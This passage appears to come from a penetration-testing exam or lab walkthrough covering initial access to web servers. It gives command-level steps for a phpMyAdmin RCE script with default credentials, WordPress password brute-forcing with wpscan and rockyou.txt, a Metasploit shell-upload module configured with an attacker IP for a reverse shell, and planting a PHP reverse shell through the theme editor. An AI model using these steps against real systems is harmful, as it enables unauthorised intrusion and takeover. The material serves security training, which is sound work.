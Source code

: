 ### Phase 3: Exploitation \& Initial Access

Choose your path based on vulnerabilities found:

**Scenario A: PHPMyAdmin RCE**

1. Find a verified RCE exploit on Exploit-DB matching the target version.
2. Download the exploit script (e.g., `pma.py`).
3. Use the script to gain command execution. The syntax often requires target IP, port, path, credentials (try defaults like `pma:pmapass` if unknown), and the command to execute.
    * Test with a simple command first: `python3 pma.py <TARGET_IP> 80 /phpmyadmin pma pmapass 'whoami'`.
4. If successful, use this command execution capability for Phase 4 (Establishing Reverse Shell).

**Scenario B: WordPress Exploitation**

* **Option 1: Vulnerable Plugin/Theme**

1. Find a suitable exploit on Exploit-DB based on `wpscan` findings.
2. Download and run the exploit script according to its instructions (e.g., `python3 exploit.py http://<TARGET_IP>/wordpress`).
3. If it grants RCE or allows file upload, proceed to Phase 4.
* **Option 2: Brute-Force Credentials**

1. If usernames were found (e.g., `admin` via `wpscan`), attempt password brute-forcing: `wpscan --url http://<TARGET_IP>/[path] --usernames <USERNAME> --passwords /usr/share/wordlists/rockyou.txt`. (Ensure you have `rockyou.txt`; exam passwords might be common ones found early in the list).
2. If successful (e.g., `admin:password123`), log in to the WordPress admin panel (`/wp-admin`).
* **Option 3: Metasploit (Admin Access Required)**

1. Launch Metasploit: `msfconsole`.
2. Search for a relevant exploit, like admin shell upload: `search wordpress shell upload` or `search wp_admin_shell_upload`.
3. Use the exploit: `use exploit/unix/webapp/wp_admin_shell_upload`.
4. Check required settings: `options`.
5. Set parameters:

```
set RHOSTS <TARGET_IP>
set USERNAME <WP_ADMIN_USER>
set PASSWORD <WP_ADMIN_PASS>
set TARGETURI /[path_to_wordpress]/  # Adjust path if needed
set LHOST <ATTACKER_IP>             # Your IP for the reverse shell
set LPORT <LISTENING_PORT>          # e.g., 4445 (different from nc listener later)
```

6. Run the exploit: `run` or `exploit`.
7. This may give a Meterpreter shell (type `shell` to get a standard shell) or a standard shell directly. Proceed to Phase 5 (Shell Upgrade) if you get a standard shell here.
* **Option 4: Manual Theme Edit (Admin Access Required)**

1. Navigate to Appearance -> Theme Editor.
2. Find an editable PHP file (e.g., `comments.php`, `404.php`).
3. Carefully replace its content with PHP code to execute commands or a PHP reverse shell (see Phase 4, Step 3b).
4. Trigger the code by visiting the relevant page/feature. Proceed to Phase 4.
